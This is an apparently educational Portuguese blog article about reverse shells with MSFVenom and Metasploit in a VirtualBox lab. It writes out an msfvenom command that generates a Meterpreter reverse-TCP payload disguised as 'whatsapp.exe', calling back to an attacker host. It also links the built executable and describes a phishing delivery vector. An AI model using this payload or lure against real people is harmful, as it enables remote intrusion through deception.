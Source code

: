 ```yaml
---
layout: default
title: Reverse Shell com MSFVenom e Metasploit
permalink: /artigos/02.md/
---
```


### Reverse Shell com MSFVenom e Metasploit

Nesse artigo vou falar sobre a técnica de conexão reversa, ou seja, a conexão iniciada a partir da máquina do cliente/vítima para o servidor do atacante. Os nomes mais comuns desse tipo de ataque são reverse-shell e backdoor. Essa técnica utiliza como vetor os ataques de phishing e engenharia social para induzir a vítima a clicar em um link e fazer o download do script que será utilizado para iniciar a conexão reversa.

Geralmente em um ambiente controlado, a arquitetura da rede inclui firewall no perímetro e muitas vezes firewall entres as redes LAN com filtros de segurança como IPS e Antimalware habilitado. O tráfego de entrada é bloqueado com exceção de algumas portas de serviços específicos expostos na internet. O reverse-shell nesse cenário consegue fazer o "bypass"  do firewall ao estabelecer uma conexão a partir da rede interna usando portas conhecidas como 80 - HTTP, 443 - HTTPS.

A figura abaixo ilustra como ocorre o bypass do firewall. Quando o script malicioso contendo o payload do shell-reverso é executado, a máquina da rede interna inicia a conexão com um servidor externo.

![topologia de rede](https://carineconstantino.github.io/cybersecurity/artigos/imagens/topologia_rede.jpg)

### Executando o shell-reverso

No ambiente de teste, eu utilizo duas máquinas virtualizadas com VirtualBox. A máquina Kali Linux com IP 10.0.2.15 é o servidor "atacante" e a máquina Metasploitable com IP 192.168.0.16 é o cliente/vítima que vai receber o arquivo executável com o payload de conexão. 

## Gerando o payload com o MSFVenom 

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=80 -o /root/whatsapp.exe ```

![msfvenom_command](https://carineconstantino.github.io/cybersecurity/artigos/imagens/msfvenom_command.png)

Payload-Donwload: [payload](https://carineconstantino.github.io/cybersecurity/artigos/payloads/whatsapp.exe)







